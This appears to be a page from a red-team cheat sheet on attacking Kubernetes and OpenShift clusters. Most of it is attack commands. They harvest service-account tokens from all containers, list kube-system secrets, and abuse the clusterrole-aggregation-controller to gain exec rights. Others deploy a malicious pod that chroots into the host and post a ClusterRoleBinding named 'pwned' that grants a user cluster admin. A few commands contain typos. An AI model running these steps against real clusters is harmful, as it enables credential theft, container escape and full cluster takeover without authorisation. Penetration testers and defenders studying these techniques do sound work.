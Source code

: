# Containerization / Orchestration




## Kubernetes

- [https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security)
- [https://redteamrecipe.com/100-Method-For-Container-Attacks/](https://redteamrecipe.com/100-Method-For-Container-Attacks/)



### kubectl

- [https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/](https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/)

Get `kubectl`:

```bash
curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl
chmod +x ./kubectl
sudo mv ./kubectl /usr/local/bin/kubectl
kubectl version --client
```

Basic authenticated enumeration (the service account token from `/run/secrets/kubernetes.io/serviceaccount/token` can be parsed at [jwt.io](https://jwt.io/)):

```
$ kubectl auth can-i --list
$ kubectl get namespaces
$ kubectl auth can-i --list -n <NAMESPACE>
$ kubectl get pods -n <NAMESPACE>
$ kubectl describe pods <POD> -n <NAMESPACE>
$ kubectl get secrets -n <NAMESPACE>
$ kubectl describe secrets -n <NAMESPACE>
$ kubectl --token=$(cat token) auth can-i create pods
```

To use kubectl from a remote host:

```
$ ls -la {/run/secrets,/var/run/secrets,/secrets}/kubernetes.io/serviceaccount
$ kubectl auth can-i --list -n kube-system --token `cat token` --server https://192.168.1.11:443 --certificate-authority ca.crt
```

{% hint style="info" %}
- [https://kubernetes.io/docs/tasks/extend-kubernetes/socks5-proxy-access-api/](https://kubernetes.io/docs/tasks/extend-kubernetes/socks5-proxy-access-api/)

Due to proxychains mostly does not work with Go binaries, export `HTTPS_PROXY=socks5://localhost:1080` in order to use kubectl through a SOCKS tunnel.
{% endhint %}



### Malicious Pods

- [https://github.com/BishopFox/badPods](https://github.com/BishopFox/badPods)

Deploy a malicious pod:

```
$ kubectl apply -f evilpod.yml
$ kubectl exec --stdin --tty -it evilpod -- chroot /hostfs bash
```



### Kubernetes API Server Paths

Check these kube-apiserver paths for anonymous access (stolen from [HackTricks](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/pentesting-kubernetes-services#kube-apiserver-anonymous-access)):

```
/api
/api/v1
/apis
/apis
/apis/admissionregistration.k8s.io
/apis/admissionregistration.k8s.io/v1beta1
/apis/apiextensions.k8s.io
/apis/apiextensions.k8s.io/v1beta1
/apis/apiregistration.k8s.io
/apis/apiregistration.k8s.io/v1
/apis/apiregistration.k8s.io/v1beta1
/apis/apps
/apis/apps/v1
/apis/apps/v1beta1
/apis/apps/v1beta2
/apis/authentication.k8s.io
/apis/authentication.k8s.io/v1
/apis/authentication.k8s.io/v1beta1
/apis/authorization.k8s.i
/apis/authorization.k8s.io/v1
/apis/authorization.k8s.io/v1beta1
/apis/autoscaling
/apis/autoscaling/v1
/apis/autoscaling/v2beta1
/apis/batch
/apis/batch/v1
/apis/batch/v1beta1
/apis/certificates.k8s.io
/apis/certificates.k8s.io/v1beta1
```



### Pod Escape


#### CVE-2022-0492 (cgroups)

- [https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)
- [https://github.com/puckiestyle/CVE-2022-0492](https://github.com/puckiestyle/CVE-2022-0492)
- [https://github.com/T1erno/CVE-2022-0492-Docker-Breakout-Checker-and-PoC](https://github.com/T1erno/CVE-2022-0492-Docker-Breakout-Checker-and-PoC)
- [https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/escaping-from-a-docker-container.md](https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/escaping-from-a-docker-container.md)



### Node Post-Exploitation

- [https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/attacking-kubernetes-from-inside-a-pod#node-post-exploitation](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/attacking-kubernetes-from-inside-a-pod#node-post-exploitation)


#### clusterrole-aggregation-controller

A study case in taking over the cluster after escaping from a pod to a worker node.

Extract tokens from all the running containers:

```
$ for c in `docker ps -q`; do echo $c; docker exec $c 'cat /var/run/secrets/kubernetes.io/serviceaccount/token' | tee tokens/$c; echo; echo; done
```

Check privileges of each token:

```
$ for t in `ls tokens`; do echo $t; kubectl --token `cat tokens/$t --server https://10.10.0.1 --certificate-authority ca.crt auth can-i --list -n kube-system; done
```

List kube-system secrets with a discovered privileged token:

```
$ kubectl --token `cat tokens/1337deadbeef` --server https://10.10.0.1 --certificate-authority ca.crt get secrets [-o yaml] -n kube-system
```

Add exec privilege with `clusterrole-aggregation-controller` token to itself:

```
$ kubectl --token `cat clusterrole-aggregation-controller-token` --server https://10.10.0.1 --certificate-authority ca.crt auth can-i create pods --subresource exec -n kube-system
no

$ kubectl --token `cat clusterrole-aggregation-controller-token` --server https://10.10.0.1 --certificate-authority ca.crt edit clusterrole system:controller:clusterrole-aggregation-controller
resources:
  - pods
  - pods/exec
verbs:
  - create

$ kubectl --token `cat clusterrole-aggregation-controller-token` --server https://10.10.0.1 --certificate-authority ca.crt auth can-i create pods --subresource exec -n kube-system
yes
```

Look for a privileged pod to exec into it:

```
$ kubectl --kubeconfig /etc/kubernetes/kubelet-kubeconfig.conf get pods --all-namespaces -o wide --filed-selector spec.nodeName=kube-master-01
$ kubectl --kubeconfig /etc/kubernetes/kubelet-kubeconfig.conf get pods some-pod-name -n some-namespace -o json | grep privileged
"privileged": true
```

Do it:

```
$ kubectl --token `cat clusterrole-aggregation-controller-token` --server https://10.10.0.1 --certificate-authority ca.crt exec -it some-pod-name -- bash
cat /proc/self/status | grep Cap
```



### Tools


#### kube-hunter

- [https://github.com/aquasecurity/kube-hunter](https://github.com/aquasecurity/kube-hunter)

```
$ kube-hunter --cidr 10.0.1.0/24 --active
```



### Training Labs

- [https://www.bustakube.com/](https://www.bustakube.com/)
- [https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html](https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html)

{% embed url="https://youtu.be/UgHt_Y3vdNg" %}




## Red Hat OpenShift

- [https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md](https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md)

Grant a low-priv user admin's privileges across the cluster [via REST API](https://access.redhat.com/solutions/5492301):

```json
curl -k -X POST 'https://cluster.megacorp.local:8443/apis/rbac.authorization.k8s.io/v1/clusterrolebindings' \
  -H 'Authorization: Bearer <TOKEN>'  \
  -H 'Accept: application/json'       \
  -H 'Content-Type: application/json' \
  -d'
{
  "kind": "ClusterRoleBinding",
  "apiVersion": "rbac.authorization.k8s.io/v1",
  "metadata": {
    "name": "pwned",
    "creationTimestamp": null
  },
  "subjects": [
    {
      "kind": "User",
      "apiGroup": "rbac.authorization.k8s.io",
      "name": "snovvcrash@megacorp.local"
    }
  ],
  "roleRef": {
    "apiGroup": "rbac.authorization.k8s.io",
    "kind": "ClusterRole",
    "name": "admin"
  }
}'
```
